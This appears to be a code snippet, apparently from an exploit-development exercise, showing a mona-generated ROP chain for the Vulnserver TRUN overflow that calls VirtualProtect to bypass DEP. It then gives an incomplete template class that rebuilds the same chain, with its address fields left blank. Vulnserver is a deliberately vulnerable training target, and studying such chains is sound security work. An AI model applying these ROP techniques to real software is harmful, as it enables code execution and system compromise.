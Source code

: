 Vulnserver TRUN example by mona:
```python
virtual_protect_chain = [
	0x76e83b80,  # POP ECX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
	0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
	0x76a0fd52,  # MOV ESI,DWORD PTR DS:[ECX] # ADD DH,DH # RETN [MSCTF.dll]
	
	0x7719054d,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR 
	0x625011af,  # & jmp esp [essfunc.dll]
	0x76e90990,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
	0xfffffdff,  # Value to negate, will become 0x00000200
	0x769f2fd0,  # NEG EAX # RETN [MSCTF.dll] ** REBASED ** ASLR 
	0x76a0f9f1,  # XCHG EAX,EBX # RETN [MSCTF.dll] ** REBASED ** ASLR 
	0x77185da8,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
	0xffffffc0,  # Value to negate, will become 0x00000040
	0x76a14cbd,  # NEG EAX # RETN [MSCTF.dll] ** REBASED ** ASLR 
	0x77216d70,  # XCHG EAX,EDX # RETN [ntdll.dll] ** REBASED ** ASLR 
	0x771a8cc6,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR 
	0x7660cb49,  # &Writable location [USP10.dll] ** REBASED ** ASLR
	0x77160a31,  # POP EDI # RETN [msvcrt.dll] ** REBASED ** ASLR 
	0x76e21645,  # RETN (ROP NOP) [RPCRT4.dll] ** REBASED ** ASLR
	0x7727a30c,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR 
	0x90909090,  # nop
	0x7707e180,  # PUSHAD # RETN [kernel32.dll] ** REBASED ** ASLR 
]
```

Ready to construct VirtualProtect:
```python
class Addresses(object):
	pop_ecx =
	VirtualProtect_addr =
	mov_esi_ptr_ecx =
	pop_ebp =
	jmp_esp =
	pop_eax =
	neg_eax =
	xchg_eax_ebx =
	xchg_eax_edx = 
	p_writeable = 
	pop_edi =
	ret = 
	pushad = 
	
virtual_protect_chain = [
	Addresses.pop_ecx,
	Addresses.VirtualProtect_addr,
	Addresses.mov_esi_ptr_ecx,
	Addresses.pop_ebp,
	Addresses.jmp_esp,
	Addresses.pop_eax,
	0xfffffdff,
	Addresses.neg_eax,
	Addresses.xchg_eax_ebx,
	Addresses.pop_eax,
	0xffffffc0,
	Addresses.neg_eax,
	Addresses.xchg_eax_edx,
	Addresses.pop_ecx,
	Addresses.p_writeable,
	Addresses.pop_edi,
	Addresses.ret,
	Addresses.pop_eax,
	0x90909090,
	Addresses.pushad
```